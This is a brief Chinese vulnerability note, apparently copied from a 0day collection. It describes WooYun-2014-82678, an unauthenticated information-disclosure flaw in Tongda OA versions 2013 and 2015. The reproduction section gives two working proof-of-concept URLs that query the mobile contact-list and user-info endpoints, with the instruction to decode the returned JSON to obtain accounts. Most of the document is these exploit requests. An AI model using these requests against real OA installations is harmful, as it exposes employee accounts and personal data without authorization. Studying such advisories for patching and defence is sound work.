 # （WooYun-2014-82678）通达 oa 未授权获取帐号

> 原文：[http://book.iwonder.run/0day/通达 oa/2.html](http://book.iwonder.run/0day/通达 oa/2.html)

## 一、漏洞简介

无需登录，即可获取所有信息

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

POC:

```
http://0-sec.org/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3 
```

```
http://0-sec.org/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50 
```

将返回的 json 进行解码

